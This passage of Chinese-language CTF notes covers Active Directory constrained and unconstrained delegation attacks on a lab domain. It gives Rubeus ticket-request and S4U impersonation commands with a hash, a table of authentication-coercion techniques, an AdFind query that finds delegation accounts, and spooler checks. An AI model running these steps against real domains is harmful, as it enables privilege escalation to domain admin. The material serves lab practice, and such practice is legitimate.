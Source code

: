 用 [Rubeus](E:\ctfTools\Ghostpack-CompiledBinaries\dotnet v4.7.2 compiled binaries\Rubeus.exe) 申请访问自身的服务票据

```bash
.\Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:1400900feabf5d233a9c1ec534105274 /domain:xiaorang.lab /dc:DC.xiaorang.lab /nowrap
```

抓到后注入票据

```bash
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/DC.xiaorang.lab /dc:DC.xiaorang.lab /ptt /ticket:你上面抓到的服务票据     # /msdsspn要看配置了何种服务的约束委派
```

然后就拿到域控直接读取flag即可

```bash
type \\DC.xiaorang.lab\C$\Users\Administrator\flag\flag04.txt
```

### 非约束委派

#### 文章 

[奇安信攻防社区-红队域渗透NTLM Relay：强制认证方式总结](F:\LocalCTF\奇安信攻防社区-红队域渗透NTLM Relay：强制认证方式总结.html)

| Coerce       | SMB named pipe    | Protocol | API / Methods                                                |
| :----------- | :---------------- | :------- | :----------------------------------------------------------- |
| PrinterBug   | \PIPE\spoolss     | MS-RPRN  | RpcRemoteFindFirstPrinterChangeNotificationEx                |
| PeitiPotam   | \PIPE\lsarpc      | MS-EFSR  | EfsRpcOpenFileRaw EfsRpcEncryptFileSrv EfsRpcDecryptFileSrv EfsRpcQueryUsersOnFile EfsRpcQueryRecoveryAgents EfsRpcFileKeyInfo |
| DFSCoerce    | \pipe\netdfs      | MS-DFSNM | NetrDfsRemoveStdRoot NetrDfsAddStdRoot                       |
| ShadowCoerce | \pipe\FssagentRpc | MS-FSRVP | IsPathSupported IsPathSupported                              |
| PrivExchange |                   |          | PushSubscription                                             |

在域内机器查找非约束委派用户的命令

```bash
AdFind.exe -b "DC=redteam,DC=com" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName
```

#### PrinterBug

**条件**：

- 打印服务开启 - spoolsv.exe
- 拥有一个域用户凭据信息

非约束委派利用的前提是必须通过域管来远程连接,在实战中通过域管来连接的情况是几乎不存在的，比较鸡肋，因此可以通过Spooler打印服务来强制指定的主机进行连接,来达到我们想要的效果。

`sc` 查询 `spooler` 是否开启

```bash
sc query spooler
```
